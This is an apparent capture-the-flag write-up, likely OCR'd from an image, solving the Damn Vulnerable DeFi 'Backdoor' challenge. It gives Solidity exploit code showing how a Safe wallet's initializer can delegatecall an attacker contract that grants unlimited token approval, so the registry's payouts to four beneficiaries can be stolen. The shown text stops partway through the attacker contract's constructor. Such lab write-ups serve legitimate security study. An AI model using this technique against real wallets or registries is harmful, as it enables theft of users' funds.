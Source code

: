 1. to = address(attacker_contract)

2. data = abi.encodeCall(attacker.approveTokens(...))

Which runs your function inside the Safe!

That’s the backdoor.

## Exploit Strategy:

1. Deploy an attacker contract with a function that:

```solidity
function approveTokens(DamnValuableToken token, address attacker) external {
    token.approve(attacker, type(uint256).max);
}

```
2. For each beneficiary:

     Use the legitimate SafeProxyFactory to create a Safe wallet.

     Inside the initializer, embed a delegatecall to our attacker contract.

     The delegatecall causes the newly created Safe wallet to approve us.

3. As soon as the wallet is created:

     The registry automatically transfers 10 tokens to it.

     Immediately use transferFrom to steal the tokens from the new wallet.

4. Repeat for all 4 users → collect 40 DVT → send to recovery address.
   


All in a single transaction 

## Exploit Code:

```solidity
// challenge contract

 function test_backdoor() public checkSolvedByPlayer {
        //because the challenge only accept if there is a single transation
        BackDoorAttacker scater = new BackDoorAttacker(
            token,
            singletonCopy /*Safe wallet  */,
            walletFactory,
            users,
            recovery,
            walletRegistry,
            AMOUNT_TOKENS_DISTRIBUTED /*40 ether*/
        );
        scater.attack();
    }

//attacker Contract
contract BackDoorAttacker {
    Safe singletonCopy;
    SafeProxyFactory walletFactory;
    DamnValuableToken token;
    WalletRegistry walletRegistry;
    address[] beneficiaries;
    address recovery;

    constructor(
        DamnValuableToken _token,
        Safe _singletonCopy,
        SafeProxyFactory _walletFactory,
```